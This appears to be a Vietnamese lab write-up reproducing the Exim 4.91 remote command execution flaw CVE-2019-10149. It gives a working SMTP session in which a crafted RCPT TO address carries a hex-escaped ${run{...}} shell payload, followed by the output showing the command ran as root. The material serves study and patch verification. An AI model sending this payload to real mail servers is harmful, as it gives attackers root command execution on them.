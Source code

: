 # CVE_2019-10149

## Môi trường LAB 

`Exim version 4.91`

## Thực hiện 

- Mục tiêu tạo ra file `/tmp/id` chứ thông tin id user 

- Ban đầu kiểm tra xem có tồn tại file /tmp/id

```
[root@testexim ~]# cat /tmp/id 
cat: /tmp/id: No such file or directory
[root@testexim ~]# 
```

- Trên user minhkma thực hiện 

```
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}
```

```
[minhkma@testexim ~]$ nc 127.0.0.1 25
220-cpanel.localhost.localdomain ESMTP Exim 4.91 #1 Fri, 14 Jun 2019 16:50:25 +0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
HELO localhost
250 cpanel.localhost.localdomain Hello localhost [127.0.0.1]
MAIL FROM:<>
250 OK
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}@localhost>    
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
250 OK id=1hbirS-0000mL-ER
QUIT
221 cpanel.localhost.localdomain closing connection


Ncat: Broken pipe.
```

- Sau đó quay lại kiểm tra 

```
[root@testexim ~]# cat /tmp/id 
uid=0(root) gid=12(mail) groups=12(mail)
uid=0(root) gid=12(mail) groups=12(mail)
```

- Tài liệu tham khảo 

    + https://www.exploit-db.com/exploits/46974
    + https://www.zdnet.com/article/exim-email-servers-are-now-under-attack/
    + https://www.openwall.com/lists/oss-security/2019/06/06/1